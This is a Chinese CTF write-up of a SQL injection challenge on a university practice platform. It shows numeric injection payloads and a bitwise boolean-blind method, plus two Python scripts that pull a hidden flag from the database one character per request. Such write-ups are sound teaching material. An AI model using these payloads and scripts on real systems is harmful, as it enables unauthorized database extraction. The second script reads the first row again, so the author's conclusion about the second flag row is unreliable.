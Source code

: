 ```yaml
---
title: ZJU校巴::SQL_injection writeup
published: 2023-10-14
slug: zju-school-bus-sql-injection-writeup
image: ./hint.png
category: CTF
tags: [CTF, ZJU校巴, writeup, SQL注入]
---
```


## 前言

继续学习CTF，记录一下第一道Web。

## 题目

![](./hint.png)

作为教程性质的题目，这道题几乎把什么都写出来了，连表名flag_is_here都知道了，真好。

题目已经告诉我们表名，并且给出了注入类型属于数字而不是字符串，因此不需要加单引号。

简单试一下 `1 OR 1 = 1` 发现给出了 0-7 全部的题目。

![](./sql-injection-1.png)

再试一下 `1 AND EXISTS(SELECT * FROM flag_is_here)`，返回了第一条数据，题目果然没骗我。

猜测列名为 “flag” ，先手注 `1 AND EXISTS(SELECT flag FROM flag_is_here)` ，发现有这个列，居然一次就猜对了XD。

然后试一下有几行 `1 AND (SELECT count(*) FROM flag_is_here) = 1`，不行，居然不止一个。再来试试2个，发现成功了，有两行flag。

题目不允许使用 UNION ，那么只能考虑布尔盲注（Boolean-based Blind Injection）了，注意到这个题目的输出其实并不是 True or False，而是八个 bit 的数据，一共 256 种情况，可以利用这个减少尝试的次数。

现在想要获取第一个flag的长度，为了充分利用这 8 bit 的数据，使用 `8 OR (SELECT LENGTH(flag) FROM flag_is_here LIMIT 1) & (1 << id)` ，发现返回了以下界面：

![](./sql-injection-2.png)

二进制的1/2/4/5位为1，而其他位均为0，0b00110110转十进制就是54，flag有54位。但是还要再验证一下，因为假如flag长度大于255（虽然不太可能），这个方法返回的数据就是错误的。

`1 OR (SELECT LENGTH(flag) FROM flag_is_here LIMIT 1) = 54`，返回的页面验证了我的猜测。

flag长度54位，ASCII码范围0-127，每次可以试出一个字符。举个例子，比如说我想知道第五个字符，就使用 `8 OR (SELECT ASCII(SUBSTR(flag, 5, 1)) FROM flag_is_here LIMIT 1) & (1 << id)`，页面返回以下结果：

![](./sql-injection-3.png)

则第五个字符的0/1/2/4/5/6位为1，其他位为0，0b01110111 = 119，查阅ASCII码表，发现对应的字符是小写英文字母“w”。

![ASCII码表](./ascii-table.png)

当然可以手动一个个试出54位flag，但是还是写代码来得快一点，上代码：

```python
import requests
from lxml import etree # 引入lxml包，便于使用XPath解析HTML

url = "http://10.214.160.13:10002/"
flag_length = 54

def array2Byte(array):
    '''
    将数组转化为一个0-255的数字
    e.g. [0, 1, 2, 4, 5, 6] -> 119
    '''
    b = 0
    for i in array:
        b |= 1 << i
    return b

def getTexts(SQLquery):
    '''
    获取请求的正文部分，再利用XPath提取出所有<body>元素里的文本。
    去除全部空白的文本，和每段文本的前后空白部分。
    '''
    res = requests.get(url, params={"questionid": SQLquery}) 
    html = res.text
    texts = etree.HTML(html).xpath('//body/text()')
    texts = [x.strip() for x in texts if not x.isspace()]
    return texts

for i in range(1, flag_length + 1):
    texts = getTexts(f"8 OR (SELECT ASCII(SUBSTR(flag, {i}, 1)) FROM flag_is_here LIMIT 1) & (1 << id)")
    # 构造SQL注入字符串，先取flag的第i个字符，再转化为ASCII码，二进制且运算提取每一位是0还是1，如果是1，则页面会返回相应序号的文本

    array = [int(x[0]) for x in texts] # 获取每个文本的第一个字符并转为数字，也就是序号0-7
    ch = chr(array2Byte(array)) # 转ASCII码为字符
    print(ch, end='')
```

运行代码后就获得了flag。

我还是有点在意另一行flag里面是啥，于是把另一行的内容也跑出来了：

```python
import requests
from lxml import etree

url = "http://10.214.160.13:10002/"

def getByte(query):
    res = requests.get(url, params={"questionid": query}) 
    html = res.text
    texts = etree.HTML(html).xpath('//body/text()')
    texts = [x.strip() for x in texts if not x.isspace()]
    array = [int(x[0]) for x in texts]
    b = 0
    for i in array:
        b |= 1 << i
    return b

flag_length = getByte("8 OR (SELECT LENGTH(flag) FROM flag_is_here LIMIT 1,1) & (1 << id)")
print(flag_length)
for i in range(1, flag_length + 1):
    ch = chr(getByte(f"8 OR (SELECT ASCII(SUBSTR(flag, {i}, 1)) FROM flag_is_here LIMIT 1) & (1 << id)"))
    print(ch, end='')
```

发现只是截取了前35个字符的不完整flag，没有什么彩蛋。

## 总结

这个题目很有趣的地方是页面可以返回一个字节的数据，这样一个长度54的flag只需要测54次就行了。当然不这么做也是可以的，毕竟这是CTF又不是需要程序在给定时间内返回结果的算法竞赛，每次获得 1 bit 的 true or false 数据或者手动注入都可以做出来。
